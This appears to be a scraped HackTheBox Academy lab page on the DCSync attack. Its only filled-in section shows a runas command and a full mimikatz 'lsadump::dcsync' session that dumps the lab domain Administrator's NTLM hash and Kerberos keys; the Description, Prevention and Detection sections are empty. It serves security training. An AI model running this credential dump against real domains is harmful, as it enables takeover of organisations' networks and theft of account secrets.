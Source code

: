 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/176/section/1784
// Platform Version: V1
// Module ID: 176
// Module Name: Windows Attacks & Defense
// Module Difficulty: Medium
// Section ID: 1784
// Section Title: DCSync
// Page Title: Windows Attacks & Defense
// Page Number: 09
-->

# DCSync

**Module Name:** Windows Attacks & Defense **Page Number:** 09

#### WINDOWS ATTACKS & DEFENSE

# DCSync

## Description

## Attack

![https://academy.hackthebox.com/storage/modules/176/A7/DCPermission.png](https://academy.hackthebox.com/storage/modules/176/A7/DCPermission.png)

``` cmd-session
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```

![https://academy.hackthebox.com/storage/modules/176/A7/Rockyprompt.png](https://academy.hackthebox.com/storage/modules/176/A7/Rockyprompt.png)

``` cmd-session
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

![https://academy.hackthebox.com/storage/modules/176/A7/AdminHash.png](https://academy.hackthebox.com/storage/modules/176/A7/AdminHash.png)

## Prevention

## Detection

![https://academy.hackthebox.com/storage/modules/176/A7/DetectDCSync.png](https://academy.hackthebox.com/storage/modules/176/A7/DetectDCSync.png)

# 

# 

#### Questions

####